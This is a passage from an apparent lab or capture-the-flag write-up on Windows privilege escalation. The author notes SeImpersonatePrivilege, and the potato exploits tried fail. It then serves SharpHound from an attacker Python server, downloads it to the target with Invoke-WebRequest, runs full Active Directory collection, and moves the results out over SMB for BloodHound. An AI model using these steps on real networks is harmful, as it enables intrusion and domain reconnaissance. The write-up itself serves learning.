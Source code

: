 Wait for a shell

![[attachments/Pasted image 20240527125112.png]]

# Privilege Escalaltion

First thing as always is to check for account privileges with `whoami /all`

![[attachments/Pasted image 20240527125310.png]]

We have `SeImpersonatePrivilege` which can be used to escalate our privilege.

I tried using printspoofer, roguepotato and even godpotato but nothing worked so i decided to perform some enumeration via SharpHound.

Download the SharpHound binary from [here](https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip) . The latest version doesn't work properly

Transfer to the target using python server 

```shell
python -m http.server 80
```

![[attachments/Pasted image 20240527150845.png]]

```powershell
Invoke-WebRequest -Uri http://10.8.129.243/SharpHound.exe -OutFile C:\Users\enterprise-security\Desktop\SharpHound.exe
```

Run the command

```powershell
.\SharpHound.exe --CollectionMethods All --Domain DOMAIN --ExcludeDCs
```

![[attachments/Pasted image 20240527151446.png]]

Check your directory and there will be a zip file there

![[attachments/Pasted image 20240527151519.png]]

Transfer this to the smb share and access it on your machine to download the file

![[attachments/Pasted image 20240527151751.png]]

![[attachments/Pasted image 20240527151852.png]]

Launch neo4j and Bloodhound

```shell
sudo neo4j console
sudo bloodhound
```

Hopefully you already have them setup already, if not then check a guide on how to do so. It very easy and straighforward.
